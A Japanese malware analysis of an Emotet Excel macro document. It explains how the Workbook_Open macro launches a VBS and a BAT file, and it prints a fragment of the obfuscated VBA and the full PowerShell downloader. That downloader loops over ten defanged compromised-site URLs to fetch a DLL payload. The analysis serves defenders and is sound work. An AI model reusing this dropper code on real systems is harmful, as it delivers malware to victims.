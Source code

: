 ```
Dim i As Integer
If i = 567 Then
strFindData = InputBox("lpg")
For i = 1 To Worksheets.Count
With Worksheets(i).Cells
Set rgFound = .Find(strFindData, LookIn:=xlValues)
If Not rgFound Is Nothing Then
Sheets(i).Select
rgFound.Select
Exit Sub
End If
End With
Next
MsgBox ("")
Else: asdfaddfdfldjkgf.kljkljfsdlkasjdfwdgSDYHsd
strFindData = "err": Range("A3").Select
End If
End Sub
```

このマクロは、Workbook_Openで実行されるため、マクロを有効にすればすぐ実行される。  
各挙動を記載するが、この内容は以下のgithubで公開されている。  
[githubリポジトリ:pr0xylife/Emotet](https://github.com/pr0xylife/Emotet/blob/main/e5_emotet_03.02.2022.txt)

マクロ有効化後、以下のvbsを起動する。  
c:¥programdata¥wetidjks.vbs

その後、このvbsから以下２つの挙動が発生する。
Note: このパターンではvbsやbat、dllのファイル名は固定されている。しかし、これは現状であり、いくらでも変わりうる。  

#### 挙動1  

まずは作成されたbatファイルを経由して以下のpowershellコードが実行される。

- バッチファイル名  
c:\programdata\jledshf.bat

powershellコードは以下。
```
$gjsebngukiwug3kwjd = "hxxp://chupahfashion[.]com/eh6bwxk/bowptl/xdAiCtVd/", "hxxp://id-tiara[.]com/well-known/AW7ddGt/", "hxxp://crm[.]avionxpress[.]com/media/H4fjpmz/", "hxxp://liaisonltd[.]com/-/wJqOY64M/", "hxxps://giskunihar[.]com/wp-content/4meLxvZP/", "hxxps://albbd[.]online/wp-content/wUw03JZqT3/", "hxxps://detroitsignsandwraps[.]com/wp-admin/bPmzjYidYDLUT/", "hxxps://tranhgohoangthiet[.]com/Fox-C/E9ZETOCG4gWfNONRKWG/", "hxxp://a-bc[.]cn/img/nhBjlyOAmot/", "hxxps://stavki-na-sporte[.]ru/wp-content/qZ9UqoY2IzXUAqW3/"
foreach ($hklwrhjse4h in $gjsebngukiwug3kwjd) {
  $js3hlskdcfk = "vbkwk"
  $sdewhsw3gkjsd = get-random
  $idrfghsbzkjxd = "c:\\programdata\\" + $js3hlskdcfk + ".dll"
  invoke-webrequest -uri $hklwrhjse4h -outfile $idrfghsbzkjxd
  if (test-path $idrfghsbzkjxd) {
    if ((get-item $idrfghsbzkjxd).length -ge 50000) {
      break
    }
  }
}
```
Note: URLはマスクしている
